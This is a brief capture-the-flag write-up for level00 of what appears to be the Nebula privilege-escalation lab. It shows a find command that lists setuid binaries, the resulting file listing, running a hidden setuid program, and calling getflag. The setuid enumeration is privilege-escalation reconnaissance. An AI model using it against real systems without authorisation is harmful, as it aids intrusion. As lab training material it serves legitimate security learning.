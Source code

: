 # level00

## Task

>This level requires you to find a Set User ID program that will run as the “flag00” account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.


## Solution

`flag00@nebula:~$ find / -xdev \( -perm -4000 \) -type f -print0 | xargs -0 ls -l`

gives the following

```
-rwsr-x--- 1 flag00  level00      7358 2011-11-20 21:22 /bin/.../flag00
-rwsr-xr-x 1 root    root        26260 2011-05-18 03:12 /bin/fusermount
-rwsr-xr-x 1 root    root        88716 2011-08-09 09:15 /bin/mount
-rwsr-xr-x 1 root    root        34740 2011-05-03 03:38 /bin/ping
-rwsr-xr-x 1 root    root        39116 2011-05-03 03:38 /bin/ping6
-rwsr-xr-x 1 root    root        31116 2011-06-24 02:37 /bin/su
-rwsr-xr-x 1 root    root        63592 2011-08-09 09:15 /bin/umount
-rwsr-xr-x 1 root    root        13904 2011-11-13 22:10 /sbin/mount.ecryptfs_private
-rwsr-sr-x 1 daemon  daemon      42736 2011-05-16 03:31 /usr/bin/at
-rwsr-xr-x 1 root    root        40292 2011-06-24 02:36 /usr/bin/chfn
-rwsr-xr-x 1 root    root        31748 2011-06-24 02:36 /usr/bin/chsh
-rwsr-xr-x 1 root    root        57956 2011-06-24 02:36 /usr/bin/gpasswd
-rwsr-xr-x 1 root    root        56208 2011-07-28 13:02 /usr/bin/mtr
-rwsr-xr-x 1 root    root        30896 2011-06-24 02:37 /usr/bin/newgrp
-rwsr-xr-x 1 root    root        41284 2011-06-24 02:36 /usr/bin/passwd
-rwsr-xr-x 2 root    root       156824 2011-09-11 12:06 /usr/bin/sudo
-rwsr-xr-x 2 root    root       156824 2011-09-11 12:06 /usr/bin/sudoedit
-rwsr-xr-x 1 root    root        14012 2011-05-03 03:38 /usr/bin/traceroute6.iputils
-rwsr-xr-- 1 root    messagebus 312728 2011-09-02 02:31 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root    root         5564 2011-04-30 08:02 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root    root       243864 2011-07-29 09:02 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root    root         9732 2011-10-04 15:08 /usr/lib/pt_chown
-r-sr-xr-x 1 root    root         9532 2011-11-20 17:35 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root    root        10224 2011-11-20 17:35 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-- 1 root    dip        273272 2011-02-04 00:43 /usr/sbin/pppd
-rwsr-sr-x 1 libuuid libuuid     13860 2011-08-09 09:15 /usr/sbin/uuidd
```

running the only file with flag00 in the name

`flag00@nebula:~$ /bin/.../flag00`

```
Congrats, now run getflag to get your flag!
```

so i run `getflag`

`flag00@nebula:~$ getflag`

```
You have successfully executed getflag on a target account
```

